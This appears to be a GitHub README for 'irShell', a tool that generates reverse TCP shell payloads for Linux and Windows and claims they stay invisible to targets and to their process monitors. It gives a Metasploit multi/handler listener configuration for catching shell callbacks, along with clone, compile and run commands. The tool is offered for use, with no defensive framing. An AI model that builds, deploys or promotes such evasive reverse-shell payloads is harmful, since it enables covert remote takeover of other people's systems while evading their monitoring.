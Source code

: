 # irShell
💯% Invisible Reverse TCP Shell Payloads for Linux/Windows in C. 

## About:
What I believe to be an original and effective method for creating reverse TCP payloads that are 100% invisible not only to the target but the target's resource/process monitors. Simple MSFconsole handlers/listeners are then used for callbacks.

## MSFconsole:

```
set exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
```

## Requirements:

SHC 

```
sudo apt install -y shc
```

Bash

```
sudo apt install -y bash
```
GCC

```
sudo apt install -y gcc
```




## Installation:

```
git clone https://github.com/MBHudson/irShell.git && cd irShell && sudo gcc irShell.c -o irShell && chmod +x irShell
```

## Usage:

```
sudo ./irShell
```
